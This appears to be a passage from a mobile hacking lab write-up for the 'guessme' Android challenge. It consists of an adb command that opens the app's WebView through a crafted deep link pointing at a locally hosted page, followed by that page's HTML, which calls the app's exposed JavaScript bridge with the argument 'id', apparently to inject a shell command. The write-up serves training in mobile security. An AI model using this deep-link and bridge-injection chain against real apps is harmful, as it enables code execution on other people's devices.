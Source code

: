 

<br />

```bash
 adb shell am start -a android.intent.action.VIEW  -n com.mobilehackinglab.guessme/.WebviewActivity -d "https://mobilehackinglab?url=http://192.168.1.8:8000/guessme.html?any=mobilehackinglab.com"
```

<br />

guessme.html

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
</head>
<body>

<p id="result">Thank you for visiting</p>

<!-- Add a hyperlink with onclick event -->
<a href="#" onclick="loadWebsite()">Visit MobileHackingLab</a>

<script>

    function loadWebsite() {
       window.location.href = "https://www.mobilehackinglab.com/";
    }

    // Fetch and display the time when the page loads
    var result = AndroidBridge.getTime("id");
    var lines = result.split('\n');
    var timeVisited = lines[0];
    var fullMessage = "Thanks for playing the game\n\n Please visit mobilehackinglab.com for more! \n\nTime of visit: " + timeVisited;
    document.getElementById('result').innerText = fullMessage;

</script>

</body>
</html>
```

<br />
